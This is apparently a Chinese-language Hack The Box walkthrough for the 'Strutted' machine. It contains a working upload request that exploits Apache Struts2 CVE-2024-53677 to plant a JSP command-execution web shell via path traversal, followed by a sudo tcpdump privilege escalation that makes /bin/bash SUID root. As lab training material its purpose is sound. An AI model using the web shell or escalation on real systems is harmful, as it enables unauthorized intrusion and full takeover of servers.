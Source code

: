 ```yaml
---
title: "HTB-Strutted"
date: 2025-03-22
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Strutted  
❯ nmap strutted.htb -sV    

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

## CVE-2024-53677 

存在一个**Download**路由可以下载到网站源码

查看**pom.xml**发现使用的是**struts2 6.3.0.1**

![](./images/image-318.png)

- [Apache Struts2文件上传绕过致远程命令执行漏洞(CVE-2024-53677) - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/418053.html)

- [深度解析 Struts2 漏洞 CVE - 2024 - 53677：原理、利用与修复全攻略](https://www.cimer.com.cn/newsinfo/7901779.html)

随意上传一张图片，可以看到响应中有存储路径

![](./images/image-319.png)

```
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------115439595428497934603121522453
Content-Length: 1253
Origin: http://strutted.htb
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=160DD7DCBCF29E8A673300CA18537126
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------115439595428497934603121522453
Content-Disposition: form-data; name="Upload"; filename="test.jpg"
Content-Type: image/jpeg

GIF89a
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";

    try {
        if ("cmd".equals(action)) {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\\n";
                }
                reader.close();
            }
        } else {
            output = "Unknown action.";
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }
    response.setContentType("text/plain");
    out.print(output);
%>
%>

-----------------------------115439595428497934603121522453
Content-Disposition: form-data; name="upload";name="top.UploadFileName"

../../shell.jsp
-----------------------------115439595428497934603121522453--
```

注意这里的最上面的**upload**的需要首字母大写

![](./images/image-320.png)

![](./images/image-321.png)

写一个反弹**shell**，拿到**tomcat**权限

![](./images/image-322.png)

在**tomcat-users.xml**中拿到密码，可以登录到**james**用户

![](./images/image-323.png)

## Root

查看`sudo -l`

```
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

- [tcpdump | GTFOBins](https://gtfobins.github.io/gtfobins/tcpdump/#sudo)

```
james@strutted:~$ COMMAND='chmod u+s /bin/bash'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
james@strutted:~$ 
```

![](./images/image-324.png)

## Summary

`User`：通过**Apache Strust2**的文件上传漏洞，拿到**tomcat**的**shell**，查看到存在**james**用户，使用配置文件中的密码成功**ssh**登录。

`Root`：**tcpdump**提权，比较简单。
